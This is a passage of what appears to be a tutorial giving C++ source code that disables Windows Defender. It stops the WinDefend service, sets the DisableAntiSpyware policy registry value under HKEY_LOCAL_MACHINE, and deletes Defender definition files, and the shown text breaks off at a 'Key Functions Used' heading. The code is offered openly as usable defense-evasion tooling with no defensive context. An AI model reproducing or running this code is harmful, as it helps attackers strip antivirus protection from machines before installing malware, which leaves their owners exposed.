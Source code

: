 ```cpp
    return true;
}

// Function to edit a registry key
bool SetRegistryKey(HKEY hKeyRoot, const char* subKey, const char* valueName, DWORD data) {
    HKEY hKey;
    if (RegOpenKeyEx(hKeyRoot, subKey, 0, KEY_SET_VALUE, &hKey) != ERROR_SUCCESS) {
        std::cerr << "Failed to open registry key" << std::endl;
        return false;
    }

    if (RegSetValueEx(hKey, valueName, 0, REG_DWORD, (BYTE*)&data, sizeof(data)) != ERROR_SUCCESS) {
        std::cerr << "Failed to set registry key value" << std::endl;
        RegCloseKey(hKey);
        return false;
    }

    RegCloseKey(hKey);
    std::cout << "Registry key set successfully." << std::endl;
    return true;
}

// Function to delete a file
bool DeleteDefenderFiles(const char* filePath) {
    if (DeleteFile(filePath)) {
        std::cout << "File deleted successfully: " << filePath << std::endl;
        return true;
    } else {
        std::cerr << "Failed to delete file: " << filePath << std::endl;
        return false;
    }
}

int main() {
    // Example: Stop the Windows Defender service
    StopService("WinDefend");

    // Example: Set a registry key to disable Defender
    SetRegistryKey(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", "DisableAntiSpyware", 1);

    // Example: Delete or move Defender definition files
    DeleteDefenderFiles("C:\\ProgramData\\Microsoft\\Windows Defender\\Definition Updates\\*");

    return 0;
}
```

### **Key Functions Used**
